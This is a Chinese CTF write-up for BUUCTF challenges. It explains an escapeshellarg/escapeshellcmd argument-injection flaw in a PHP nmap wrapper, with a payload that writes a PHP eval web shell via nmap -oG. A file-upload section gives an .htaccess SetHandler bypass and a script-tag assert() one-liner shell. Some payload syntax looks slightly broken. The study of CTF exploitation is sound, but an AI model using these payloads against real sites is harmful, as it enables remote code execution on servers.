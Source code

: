 [TOC]

## 0x20.[BUUCTF 2018]Online Tool

escapeshellarg与escapeshellcmd函数公用漏洞。

相关文章：[PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

>   1.  传入的参数是：172.17.0.2' -v -d a=1
>   2.  经过escapeshellarg处理后变成了'172.17.0.2'\\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
>   3.  经过escapeshellcmd处理后变成'172.17.0.2'\\\\'' -v -d a=1\\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
>   4.  最后执行的命令是curl '172.17.0.2'\\\\'' -v -d a=1\\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。

题目源码：

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

nmap中够一个-oG的参数可以实现命令和结果写入到文件。

payload：

```
?host='<?php @eval($_post['cmd'])?;> -oG 123.php'
```

然后蚁剑连接就OK

## 0x21.[GXYCTF2019]BabyUpload

考点就是上传。

 文件名后缀不能是 ph 开头，文件内容过滤<?

上传.hatcess

>   ```
>   SetHandler application/x-httpd-php
>   ```

然后上传1.jpg

普通的一句话会被过滤，可能过滤了<?

>   <script language='php'>assert($_REQUEST['cmd'])</script>

## 0x22.[RoarCTF 2019]Easy Java(没做)



## 0x23.[强网杯 2019]高明的黑客



